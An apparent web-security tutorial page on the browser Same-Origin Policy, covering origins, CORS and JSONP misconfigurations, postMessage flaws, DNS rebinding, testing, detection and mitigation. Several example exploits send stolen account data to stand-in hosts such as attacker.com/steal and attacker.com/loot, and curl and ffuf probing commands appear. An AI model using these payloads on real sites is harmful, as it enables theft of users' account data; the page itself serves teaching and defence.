


# Same-Origin Policy (SOP)

> **SOP is the browser's core security boundary — it's the reason XSS and CSRF exist as vulnerability classes.**

---

## 🧠 What Is It? (Beginner Explanation)

Without SOP, any website you visit could silently read your emails from Gmail, check your bank balance, or post on your behalf. The Same-Origin Policy is the rule that says: **JavaScript on one website cannot read data from another website**.

It's the browser's foundational security boundary. Understanding it — and its limitations — explains why XSS, CSRF, CORS misconfigurations, and clickjacking are all possible.

---

## 🏗️ What Is an "Origin"?

An **origin** = `scheme + hostname + port`

Three parts, all three must match for same-origin:

| Compared to `http://store.company.com/dir/page.html` | Outcome | Reason |
|------------------------------------------------------|---------|--------|
| `http://store.company.com/dir2/other.html`           | ✅ Same | Only path differs |
| `http://store.company.com/dir/inner/another.html`    | ✅ Same | Only path differs |
| `https://store.company.com/page.html`                | ❌ Diff | **Different scheme** |
| `http://store.company.com:81/dir/page.html`          | ❌ Diff | **Different port** (http defaults to 80) |
| `http://news.company.com/dir/page.html`              | ❌ Diff | **Different host** |
| `http://company.com/dir/page.html`                   | ❌ Diff | Different subdomain |

> 🔑 **Key insight:** `http://` vs `https://` = different origin! `company.com` vs `sub.company.com` = different origin!

---

## 🏗️ What SOP Allows vs Blocks

### Allowed (Cross-Origin)

| Operation                | Example                                    | Notes                                    |
|--------------------------|--------------------------------------------|------------------------------------------|
| Embedding images         | ``    | Can't read pixel data via JS (canvas taint)|
| Script includes          | `<script src="https://cdn.com/lib.js">`    | Executes but content not readable        |
| CSS includes             | `<link href="https://cdn.com/style.css">`  | Applied but content not readable         |
| iframe src               | `<iframe src="https://other.com">`         | Renders but JS can't access DOM inside   |
| Form submissions         | POST to cross-origin URL                   | Data sent but **response not readable** — this is why CSRF works! |
| Navigation/links         | `<a href="https://other.com">`             | Allowed — browser navigates             |

### Blocked (Cross-Origin)

| Operation                | Example                                    | Result                                   |
|--------------------------|--------------------------------------------|------------------------------------------|
| XHR/Fetch read           | `fetch('https://bank.com/api/balance')`    | Blocked unless CORS headers present      |
| DOM access               | `iframe.contentDocument.body`             | `SecurityError` if cross-origin          |
| Cookie access            | `document.cookie` on sub.example.com      | Can't read parent domain cookies via JS  |
| localStorage read        | Read other origin's localStorage          | Complete isolation                        |
| postMessage unverified   | Receive message from any origin           | Message sent but **origin must be checked** |

---

## 📊 SOP Threat Model — Why It Exists



---

## ⚙️ SOP for Different Resource Types

### XMLHttpRequest / Fetch

```javascript
// SAME origin — full access
fetch('/api/data').then(r => r.json())  // Works fine

// CROSS origin — blocked without CORS
fetch('https://other.com/api/data')
  .then(r => r.json())  // ❌ Blocked by SOP if no CORS headers
  .catch(e => console.error('CORS error', e));
```

### Cookies

- Cookies are scoped by `Domain` attribute (not origin exactly — port ignored!)
- A cookie set with `Domain=.example.com` is sent to ALL subdomains
- JS can only read cookies for its own origin (and no subdomains unless `Domain` is set)
- **Port is ignored for cookies** — `http://example.com:8080` and `http://example.com:80` can share cookies with `Domain=example.com`

### localStorage / sessionStorage

- Strictly origin-scoped (scheme + hostname + port — port matters!)
- `http://example.com:8080` and `http://example.com:3000` have separate localStorage

### PostMessage

```javascript
// Sender
otherWindow.postMessage('secret data', 'https://trusted.com');
//                                      ^^^^ target origin — security!

// Receiver — MUST verify origin!
window.addEventListener('message', function(event) {
    // SECURE: check origin first
    if (event.origin !== 'https://trusted.com') return;
    
    // VULNERABLE: no origin check!
    // processData(event.data);  ← any site can send messages
    
    processData(event.data);  // safe after origin check
});
```

---

## 💥 SOP Bypass Techniques

### 1. CORS Misconfiguration

CORS is the intended mechanism to relax SOP — but misconfigurations create vulnerabilities.

**Type A — Origin Reflection:**

```http
# Attacker sends:
GET /api/sensitive HTTP/1.1
Origin: https://attacker.com

# Vulnerable server echoes origin:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<!-- attacker.com page -->
<script>
  fetch('https://victim.com/api/account', {credentials: 'include'})
    .then(r => r.json())
    .then(data => fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    }));
</script>
```

**Type B — Null Origin Trusted:**

```http
# Server trusts null origin:
Access-Control-Allow-Origin: null

# Attacker sends from sandboxed iframe (gets null origin):
<iframe sandbox="allow-scripts allow-same-origin allow-forms" 
        src="data:text/html,<script>
          fetch('https://victim.com/api', {credentials:'include'})
            .then(r=>r.text()).then(alert)
        </script>">
</iframe>
```

**Type C — Regex Bypass:**

```
// Server validates: does Origin start with "https://example.com"?
// Attacker registers: examplecom.attacker.com
// Or:                 example.com.evil.com
// Bypasses: startsWith('https://example.com')

// Better: only test origin against allowlist of exact values
const allowedOrigins = ['https://app.example.com', 'https://example.com'];
if (allowedOrigins.includes(req.headers.origin)) { ... }
```

---

### 2. JSONP — Legacy SOP Bypass

JSONP (JSON with Padding) was invented before CORS as a way to bypass SOP:

```html
<!-- Script tags aren't blocked by SOP! -->
<script src="https://api.bank.com/account?callback=steal"></script>

<!-- Bank returns: steal({"balance": 10000, "account": "12345"}) -->
<!-- This executes steal() with the data as argument! -->
```

```javascript
// Attacker's JSONP exploit page
window.steal = function(data) {
    fetch('https://attacker.com/loot?data=' + JSON.stringify(data));
};
// The <script> tag fetches bank.com/account?callback=steal
// Bank wraps response: steal({"balance": 10000, ...})
// Our steal() function is called with the sensitive data!
```

**When it works:** API endpoint has a `callback` parameter, no auth check on origin, user is logged in.

**Finding JSONP endpoints:**
```bash
# Look for callback parameters
ffuf -u https://target.com/api/FUZZ?callback=test \
  -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt

# Check if response wraps JSON in function call
curl "https://target.com/api/user?callback=test"
# If response: test({"user": "admin"}) → JSONP exists!

# grep for JSONP patterns in JS
grep -r "callback=" target-js/
```

---

### 3. postMessage Origin Check Missing

```javascript
// Vulnerable application code
window.addEventListener('message', function(event) {
    // ❌ NO ORIGIN CHECK!
    document.getElementById('user').innerHTML = event.data;
    // Or worse: eval(event.data)
    // Or: fetch('/api/admin?action=' + event.data)
});
```

```html
<!-- Attacker's page -->
<iframe src="https://victim.com/page" id="frame" onload="attack()"></iframe>
<script>
function attack() {
    // Can send messages to victim.com's iframe
    document.getElementById('frame').contentWindow.postMessage(
        '',
        '*'  // wildcard target origin
    );
}
</script>
```

**Real-world impact:** DOM XSS via postMessage, privilege escalation if page uses postMessage for auth

---

### 4. document.domain Relaxation

```javascript
// On sub1.example.com
document.domain = 'example.com';

// On sub2.example.com  
document.domain = 'example.com';

// Now sub1 and sub2 can access each other's DOM!
// If attacker XSS's sub2, they can access sub1's DOM
```

> ⚠️ `document.domain` is **deprecated** in modern browsers (Chrome 106+) but still works in some browsers. The underlying trust issue: if any subdomain is compromised, all subdomains are affected.

---

### 5. DNS Rebinding — Full Attack Flow



**Real attack targets:**
- Home/office routers (default creds, admin panels)
- Smart home devices (Philips Hue, Nest)
- Cloud metadata APIs (`169.254.169.254`)
- Developer tools (localhost:8080, :3000, :8888 Jupyter)

**Tools:** [Singularity of Origin](https://github.com/nccgroup/singularity), [rebinder](https://github.com/mogwailabs/rbndr)

---

### 6. Historical: Flash crossdomain.xml

Before CORS, Flash used a `crossdomain.xml` file at the domain root to specify which origins could make cross-origin requests:

```xml
<!-- Wildcard — completely insecure! -->
<?xml version="1.0"?>
<cross-domain-policy>
    <allow-access-from domain="*"/>
</cross-domain-policy>
```

Any Flash file could read from domains with `domain="*"`. Relevant today for:
- Legacy applications still using Flash
- Pattern to understand how cross-origin policies work
- Similar concept to CORS but for Flash/Silverlight

---

## ⚙️ SOP Relation to XSS, CSRF, CORS

### SOP and XSS

```
XSS fundamentally bypasses SOP:
- SOP says: evil.com can't read bank.com's data
- XSS says: attacker injected JS into bank.com itself
- Injected JS runs at bank.com's origin
- SOP doesn't apply — the code IS bank.com as far as the browser knows!

This is why XSS is so severe: it collapses all security to zero.
```

### SOP and CSRF

```
SOP only blocks JavaScript from READING cross-origin responses.
SOP does NOT block cross-origin REQUESTS being sent!

A form POST or fetch() without credentials:
- Request IS sent to bank.com (with cookies!)
- Browser receives response
- JavaScript on evil.com CANNOT READ the response (SOP blocks it)

But some attacks don't need to READ the response:
- Transfer money form: doesn't need to read the result
- Delete account: state changed regardless of whether attacker reads response
→ This is CSRF — SOP doesn't protect against state-changing requests!
```

### SOP and CORS

```
CORS is the controlled way to relax SOP.
- Server opts in to allowing cross-origin reads
- Browser enforces the rules
- If misconfigured → attacker can read cross-origin responses
```

---

## 🛠️ Testing SOP Bypasses

```bash
# Test CORS misconfiguration
curl -H "Origin: https://attacker.com" https://target.com/api/sensitive -v 2>&1 | grep -i "access-control"

# Test null origin
curl -H "Origin: null" https://target.com/api/sensitive -v 2>&1 | grep -i "access-control"

# CORS with credentials check
curl -H "Origin: https://attacker.com" \
     -H "Cookie: session=victim_token" \
     https://target.com/api/account -v

# Find JSONP endpoints
ffuf -u "https://target.com/FUZZ?callback=x" \
     -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt \
     -mr "^x\("

# Check for postMessage handlers (in browser console)
# Look in Sources tab for: window.addEventListener('message'
```

---

## 🔍 Detection

| Bypass Technique | Detection                                                             |
|------------------|-----------------------------------------------------------------------|
| CORS misconfiguration | Code review: check CORS middleware for origin reflection patterns  |
| JSONP abuse       | Look for `?callback=` patterns in API; check if response wraps JSON   |
| postMessage vuln  | Code review: `addEventListener('message'` without `event.origin` check|
| DNS rebinding     | Monitor for HTTP Host headers that don't match expected domains        |
| document.domain   | CSP `sandbox` flag prevents document.domain manipulation               |

---

## 🛡️ Mitigation

```javascript
// CORS: Use explicit allowlist, never reflect origin
const allowedOrigins = new Set([
  'https://app.example.com',
  'https://www.example.com'
]);

app.use((req, res, next) => {
  const origin = req.headers.origin;
  if (allowedOrigins.has(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin);
    res.setHeader('Access-Control-Allow-Credentials', 'true');
    res.vary('Origin');
  }
  next();
});
```

```javascript
// postMessage: ALWAYS verify origin
window.addEventListener('message', function(event) {
  // Explicit origin check — not just truthy
  if (event.origin !== 'https://trusted-sender.com') {
    console.warn('Rejected message from:', event.origin);
    return;
  }
  // Safe to process event.data
  processData(event.data);
});
```

```nginx
# Remove JSONP callback endpoints from production
# Or validate callback parameter against allowlist
location /api/ {
    # If you must have JSONP, validate the callback name
    if ($arg_callback ~* "[^a-zA-Z0-9_]") {
        return 400;
    }
}
```

---

## 📚 References

- [MDN — Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
- [PortSwigger — CORS Vulnerabilities](https://portswigger.net/web-security/cors)
- [PortSwigger — Exploiting CORS Misconfigurations for Bitcoins and Bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
- [OWASP — Testing for Cross-Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
- [DNS Rebinding Attacks — Taviso](https://lock.cmpxchg8b.com/rebinder.html)
- [RFC 6454 — Web Origin Concept](https://www.rfc-editor.org/rfc/rfc6454)
